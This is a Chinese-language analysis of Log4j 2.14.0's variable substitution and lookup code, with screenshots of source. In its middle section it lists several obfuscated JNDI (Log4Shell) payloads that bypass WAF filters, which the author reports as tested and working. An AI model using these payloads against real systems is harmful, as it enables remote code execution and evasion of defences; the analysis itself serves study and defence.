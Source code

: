 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306201446671.png)

然后是一个if块套的for循环，解析变量表达式中的默认值分隔符（匹配`:-\关键字），并根据分隔符将变量名和默认值分开。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306203240460.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306201729450.png)

在没有匹配到变量赋值或处理结束后，将会调用 `resolveVariable` 方法解析满足 Lookup 功能的语法，将返回的结果替换回原字符串后，再次调用 `substitute` 方法进行递归解析。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306202459090.png)

字符串替换的过程中可以看到，方法提供了一些特殊的写法，并支持递归解析。而这些特性，将会可以用来进行绕过 WAF。

在这里可以列举一些绕过姿势，让我们看看上面的字符串替换的妙用

比如下面就是一个嵌套解析，`${::-j}`解析得到j

```java
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://domain.com/j}
```

同理：

```java
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//domain.com/a}
```

同理：

```java
${${j:-j}${n:-n}${d:-d}${i:-i}:${r:-r}${m:-m}${i:-i}://127.0.0.1:1099/remoteImpl}
```

同理，我们可以构造`:\-`形式的绕过：

```java
${${J:\-J:-j}${N:\-N:-n}${D:\-D:-d}i:${RMI:-rmi}://127.0.0.1:1099/remoteImpl}
```

实测可用

### lookup

经过字符串处理后，调用了resolveVariable

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306205914371.png)

resolveVariable内调用getVariableResolver获取了解析器，然后调用解析器的lookup

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306210314043.png)

resolver实际上是Interpolator代理类，在构造函数填充了一堆Lookup器

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250306210557848.png)

在 2.14.0 版本中，默认是加入  log4j、sys、env、main、marker、java、lower、upper、jndi、jvmrunargs、spring、kubernetes、docker、web、date、ctx，由于部分功能的支持并不在 core 包中，所以如果加载不到对应的处理类，则会添加警告信息并跳过。而这些不同 Lookup  功能的支持，是随着版本更新的，例如在较低版本中，不存在 upper、lower 这两种功能，因此在使用时要注意环境。
